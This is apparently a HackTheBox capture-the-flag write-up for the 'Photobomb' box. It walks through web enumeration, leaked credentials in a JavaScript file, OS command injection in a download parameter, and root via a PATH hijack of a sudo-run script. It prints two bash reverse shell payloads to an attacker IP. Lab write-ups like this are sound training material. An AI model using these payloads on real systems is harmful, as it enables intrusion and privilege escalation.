 ```yaml
---
title: (HTB) - Photobomb
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-03-04 09:33:00 +0100
categories: [HackTheBox, Linux]
tags: [Web, Vulnerability Assessment, Injection, Custom Applications, NGINX, Python, SUDO Exploitation, OS Command Injection]
math: true
mermaid: true
image:
  src: /assets/images/20221010204442.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Photobomb is an easy linux box where we have to enumerate a web application, achieving OS command injection. For privilege escalation, there is vulnerable script which uses relative path which we can exploit**

# Enumeration
## Nmap 

Let's start NMAP
```
Nmap scan report for photobomb.htb (10.129.224.122)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-favicon: Unknown favicon MD5: 622B9ED3F0195B2D1811DF6F278518C2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 10 19:03:58 2022 -- 1 IP address (1 host up) scanned in 16.42 seconds
```
We have ports `80` and `22`, so we should probably focus on webserver on port 80!

## Web Server
### Whatweb
Using `Whatweb` we get a redirect back to `photobomb.htb` which will be added to `/etc/hosts`
![](/assets/images/20221010190131.png)
We can also see that we're dealing with Ubuntu and we know exact version of `NGINX` server, which is `1.18.0`

### Browser and running Burp in the background
Let's check the website through browser and let's not forget to start Burp to run in the background!

So this is the website:
![](/assets/images/20221010190728.png)

If we click on `click here!` prompt opens asking us for credentials:

![](/assets/images/20221010190815.png)

I'd search for default credentials if i could fingerprint the service but doesn't seem to be the case here. 

### Leaked credentials in JS File
If we've had Burp open, we'd find `photobomb.js` file in `Site Map`

![](/assets/images/20221010191858.png)
Otherwise checking source should do well, as well.

Login using `pH0t0:b0Mb!`

![dsa](/assets/images/20221010192904.png)

### 404 Not found = Sinatra?
If we open non-existing page we get onto this site:
![asd](/assets/images/20221010193045.png)

And the source
![aaa](/assets/images/20221010193220.png)
We can see another port `4567` open on localhost. 
Hopefully we've noticed that some kind of `Sinatra` is running, and if we google => https://sinatrarb.com

### Enumerating download photo 
If we scroll down, we can see that we have some sort of download option

![](/assets/images/20221010194426.png)

This is request seen in Burp
![](/assets/images/20221010194643.png)
After checking for LFI, RFI, i've noticed that `filetype` parameter is vulnerable to OS Command Injection

![](/assets/images/20221010195902.png)
We just need to make sure to inject valid photo, otherwise the payload won't work (at least it did not work for me)

# Getting Shell as Wizard
## OS Command Injection
I've used following payload for reverse shell 
```bash
bash -c  "bash -i >& /dev/tcp/10.10.14.216/4242 0>&1"
```
Before i've sent it i've URL encoded it!

![](/assets/images/20221010200413.png)
# Privilege Escalation to root
## Relative path used - script can be ran as sude
There we are. We now have a shell as `wizard` and `sudo -l` already gives us a hint what should we be looking for. There's a script runing with root privileges named `/opt/cleanup.sh`.
```
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
Notice that we the last `find` does not have absolute path specified as commands before that.

We can exploit that simply by modifing our PATH by placing `find` script before real `find`.
Let us do that:
```
wizard@photobomb:~$ whereis find
whereis find
find: /usr/bin/find /usr/share/man/man1/find.1.gz /usr/share/info/find.info-2.gz /usr/share/info/find.info-1.gz /usr/share/info/find.info.gz

wizard@photobomb:~$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

wizard@photobomb:~$ export PATH=/home/wizard:$PATH
export PATH=/home/wizard:$PATH

wizard@photobomb:~$ echo $PATH
echo $PATH
/home/wizard:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```
echo '#!/bin/bash' > find
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.216/5555 0>&1" &' >> find
```

Make sure to make thae `/home/wizard/find` script executable using `chmod +x find`!

When runing the `/opt/cleanup.sh` you'll have to include the ENV variable = PATH.

![](/assets/images/20221010204244.png)
